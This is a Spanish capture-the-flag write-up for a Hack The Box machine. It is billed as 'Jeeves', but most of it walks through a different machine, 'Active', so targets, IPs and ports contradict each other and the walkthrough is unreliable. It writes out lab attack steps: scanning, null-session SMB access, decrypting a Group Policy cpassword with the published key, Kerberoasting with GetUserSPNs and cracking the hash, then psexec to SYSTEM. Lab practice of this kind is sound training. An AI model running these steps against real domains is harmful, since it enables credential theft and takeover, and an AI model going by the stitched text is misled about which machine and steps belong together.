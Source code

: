 ```yaml
---
title: "Jeeves HTB WriteUp"
layout: post
---
```

![Ative HTB](/assets/images/Jeeves-1.png)


<h2>Presentación</h2>
Jeeves es una máquina windows que corre un servicio de jenkin que es un servidor para automatizar tareas open sources, la primera vez que hice la máquina daba con 
un archivo keepass que contenia claves, pero esta vez no fue necesaria para escalar privilegios, abusamos del privilegio SeImpersonatePrivilege para lograr convertirnos
en administrador, y jugamos con JuicyPotato para explotar el mismo.

<h2>Reconocimiento</h2>
En la fase de reconocimiento como siempre realizamos la identificacion de puertos y servicios en dos pasos, en la primera parte exportando el output en formato grep a un archivo llamado allports:
  
{% highlight bash %}
nmap -p- --open -v -n --min-rate 5000 10.10.10.63 -oG allports
{% endhighlight %}

Este es un escaneo de todos los puertos _-p-_, _-v_ verbosity para que nos represente el output por pantalla a medida que descubre puertos abiertos, _-n_ para que no aplique 
resolucion DNS y _-Pn_ para que asuma que todos los puertos estan up. 

```
[*] IP Address: 10.10.10.63
[*] Open ports: 80,135,445,5000
```

<h2>Puertos y Servicios</h2>
Con el fin de conocer un poco más de los servicios que se están ejecutando y lanzar una serie de script básico de reconocimiento para dichos puertos y servicios. 

{% highlight bash %}
nmap -p80,135,445,50000 -sCV -A -oN allservices 10.10.10.100
{% endhighlight %}

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-11 10:53 EDT
Nmap scan report for 10.10.10.63
Host is up (0.49s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|10 (90%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_10 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (90%), Microsoft Windows 10 1511 - 1607 (85%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

```

Aqui podemos identificar dos servicios http en diferente puertos, puerto 80 y 50000 respectivamente, tecnologia de Microsoft IIS y Jetty 9.4.x; es bueno identificar 
estas versiones para luego buscar en exploit-DB o seachsploit vulnerabilidades asociadas a la misma, que quizas para nuestra version enumerada solo aparece un _Information Disclosure_
en un archivo *txt*.

Podemos observar el OS que detecta nmap _windows_server_2008 r2_ que podemos comprobar una vez ganemos accesos con el comando _system info_.

![Ative HTB](/assets/images/services.png)
<h2>Enum SMB puerto 445</h2>

Si intentamos conectarnos al servicio de SMB haciendo uso de un null session nos reporta _session setup failed: NT_STATUS_ACCESS_DENIED_; por lo que necesitariamos credenciales para listar y enumerar dicho servicio.

{% highlight bash %}
smbclient -L //10.10.10.63 -N 
{% endhighlight %}

<h2> Puertos 80 y 50000 </h2>

Bien el servidor web en la  http://10.10.10.63/ nos muestra un busquedor como la siguiente imagen y que sin importar que introducimos nos envia a _/error.html_,
que no es mas que una imagen de error ASP.NET !ay ASP.NET framework, por alli inicie viendo video de [Gavilanch2][Gavilanch2] en youtube!; ok seguimos..

Mencionar que aplicar fuzzing a directorio tampoco arroja nada a diferencia del servicio en el puerto 50000.

{% highlight bash %}
gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
{% endhighlight %}

Con smbclient haciendo uso de un null session accedimos a listar dicho directorio y su contenido.
{% highlight bash %}
smbclient //10.10.10.100/Replicacion -U ""%""
{% endhighlight %}

![Ative HTB](/assets/images/smbclient.png)

Luego de navegar por el directorio policies en busca de algo interesante y observando cada archivo hasta dar con el archivo groups.xml, que según el siguiente article de [Hacking-Article][Hacking-Article] es creado como consecuencia de la configuración de Group Policy Preference, en la que permiten a un administrador crear policies e instalar aplicaciones a través de Group Policy. Y sobre la cual se guarda una contraseña encriptada en formato _cpassword_, y de la cual Microsoft publicó la llave, como podemos observar en el siguiente artículo, [Microsoft][Microsoft], trasladamos el contenido de dicha carpeta a nuestra carpeta content y efectivamente, como se puede observar, obtenemos las credenciales del usuario SVC_TGS:

{% highlight bash %} <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups> {% endhighlight %}

Desencriptamos la contraseña con el uso de la herramienta gpp-decrypt:

![Ative HTB](/assets/images/ggp.png)

también podemos hacer uso de el siguiente one-liner ya que conocemos la llave como mencionamos anteriormente:
{% highlight bash %} 
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000 
{% endhighlight %}

<h2>Validación de credenciales</h2>

Utilizamos la herramienta crackmapexec.py del poderoso _impacket_ para verificar la autenticidad de dicho usuario en el dominio **active.htb**, las cuales resultaron ser válida aunque no obtuvimos un (Pwned!) e intentamos verificar si podiamos loguearnos a traves de winrm, pero no fue así. 

![Ative HTB](/assets/images/gpp.png)

**Nota** desde aqui podemos visualizar la flag del user, haciendo uso de smbclient y navegando entre directorios :)

{% highlight bash %} smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingSt----8 {% endhighlight %}

Pero teniendo un usuario y contraseña, se nos hace posible realizar un Kerberoasting attack, el cual TCM Security explica detallamente, que nos _dumpea_ los krbasrep5 hashes de las cuentas que tienen _UserAccountControl setting “Do not require Kerberos preauthentication” habilitada_ pero que explico con más detalle en el siguiente artículo, sobre mis apuntes. 
Para esto utilizamos la herramienta _GetUserSPNs.py_, del poderoso impacket 🏅  

{% highlight bash %} GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS {% endhighlight %}

obtenemos el hash NTLMv2, enviamos a un archivo de texto y utilizamos John The Ripper, para obtener la credencial en texto plano.

![Ative HTB](/assets/images/hash.png)

y ya obteniendo credenciales de administrador como nos muestra la primera línea del output del GetUserSPNs.py, y contraseña nos logueamos en el sistema. 

![Ative HTB](/assets/images/psexec.png)

Ya siendo Nt Authority\System, a buscar las flags.
Que he decidido mostrar solo si existe algún paso más para llegar a ellas, no que tan solo sea navegar entre directorios como es este el caso, para poder verla. 

🖱️_by:_ *@DaVinciRoot*

[Gavilanch2]: [https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/](https://www.youtube.com/watch?v=YzC-FYg66xA&list=PL0kIvpOlieSNWR3YPSjh9P2p43SFnNBlB)
[Microsoft]: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0
